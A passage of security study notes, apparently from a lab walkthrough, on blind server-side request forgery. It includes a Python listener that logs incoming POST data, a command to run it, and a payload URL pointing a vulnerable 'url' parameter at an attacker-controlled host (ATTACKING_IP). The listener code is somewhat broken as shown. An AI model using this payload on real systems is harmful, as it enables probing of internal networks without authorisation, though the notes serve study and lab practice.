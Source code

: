 {% code overflow="wrap" fullWidth="true" %}
```sh
# BLIND SSRF SCRIPT
def end_headers(self):
    self.send_header('Access-Control-Allow-Origin', '*')  # Allow requests from any origin
    self.send_header('Access-Control-Allow-Methods', 'GET, POST, OPTIONS')
    self.send_header('Access-Control-Allow-Headers', 'Content-Type')
    super().end_headers()

def do_GET(self):
    self.send_response(200)
    self.end_headers()
    self.wfile.write(b'Hello, GET request!')

def do_POST(self):
    content_length = int(self.headers['Content-Length'])
    post_data = self.rfile.read(content_length).decode('utf-8')

    self.send_response(200)
    self.end_headers()

    # Log the POST data to data.html
    with open('data.html', 'a') as file:
        file.write(post_data + '\n')
    response = f'THM, POST request! Received data: {post_data}'
    self.wfile.write(response.encode('utf-8'))
    
if name == 'main':
server_address = ('', 8080)
httpd = HTTPServer(server_address, CustomRequestHandler)
print('Server running on http://localhost:8080/')
httpd.serve_forever()
Execute it
chmod +x server.py && python3 server.py
Then input our IP and port on the vulnerable field
/profile.php?url=http://ATTACKING_IP:8080
```
{% endcode %}

### What is the impact of blind SSRF vulnerabilities?

Often lower than fully informed SSRF because you cannot retrive data but sometimes -> RCE.

### How to find and exploit blind SSRF vulnerabilities

Out-of-band (OAST) -> trigger an HTTP request to an external system that you control.

NOTE: It is relatively common for infrastructure to allow outbound DNS traffic, since this is needed for so many purposes, but block HTTP connections to unexpected destinations (common to see DNS traffic on Collaborator but not subsequent HTTP requests).

You can blindly sweep the internal IP address space, sending payloads designed to detect well-known vulnerabilities on an unpatched internal server.
